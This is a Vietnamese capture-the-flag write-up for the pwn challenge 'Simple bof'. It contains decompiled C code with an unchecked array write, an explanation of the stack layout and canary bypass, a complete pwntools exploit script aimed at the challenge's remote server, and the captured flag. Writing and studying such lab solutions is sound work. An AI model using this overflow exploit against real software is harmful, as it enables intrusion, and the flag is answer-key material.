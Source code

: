 # Simple bof (pwn)

Check binary

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Decompile bằng IDA

{% code lineNumbers="true" %}
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v5; // [rsp+8h] [rbp-98h] BYREF
  int i; // [rsp+Ch] [rbp-94h]
  _QWORD v7[16]; // [rsp+10h] [rbp-90h] BYREF
  __int64 v8; // [rsp+90h] [rbp-10h]
  unsigned __int64 v9; // [rsp+98h] [rbp-8h]

  v9 = __readfsqword(0x28u);
  setup(argc, argv, envp);
  v8 = 1LL;
  printf("First useful number: 0x%x\n", &locret_40101A);
  printf("Second useful number %p\n", win);
  puts("How many magic numbers do you wanna tell me?");
  __isoc99_scanf("%d", &v5);
  puts("Ok.");
  for ( i = 0; i < v5; ++i )
  {
    printf("%d. ", (unsigned int)(i + 1));
    __isoc99_scanf("%lu", &v7[i]);
  }
  if ( v8 != 0xDEADBEEFDEADBEEFLL )
  {
    puts("Thanks a lot.");
    exit(0);
  }
  puts("Don't forget the canary.");
  return __readfsqword(0x28u) ^ v9;
}
```
{% endcode %}

Bài này ko kiểm tra size ở line 15, nếu ta nhập số >16 -> ghi đè ra ngoài biến array v7 -> overflow

Qua quá trình debug mình thấy:

\+ biến v8 ở index 16

\+ stack canary ở index 17

\+ saved rip ở index 19 -> mình sẽ ghi đè thành địa chỉ của `ret` gadget ( leak ở line 12) -> rồi ghi đè địa chỉ hàm win ở index 20 ( bài này `no-pie` nên leak win không cần thiết lắm :))) ).

Script giải

```python
from pwn import *
from time import sleep
e=ELF("./simple_bof")
#p=e.process()
p=remote("45.122.249.68",10018)
#context.log_level='debug'
#gdb.attach(p,gdbscript="\nb *main+307")
p.recvuntil(b"First useful number: ")
sleep(1)
leak=p.recvuntil(b"\n").rstrip().decode()
sleep(1)
leak=int(leak,16)
log.info(hex(leak))
p.sendline(b"21")
sleep(1)
#pause()
for i in range(21):
    if i==16:
        p.sendline(str(0xDEADBEEFDEADBEEF).encode())
    #elif i==17:
    #    p.sendline('-'.encode())
    elif i==19:
        p.sendline(str(leak).encode())
    elif i==20:
        p.sendline(str(e.sym["win"]).encode())
    else:
        p.sendline('-'.encode())
    sleep(1)
p.interactive()

```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Flag: `W1{sUp3r_e4sY_b0f_74f2f624d3c92c1d739b6b0b238c0321}`





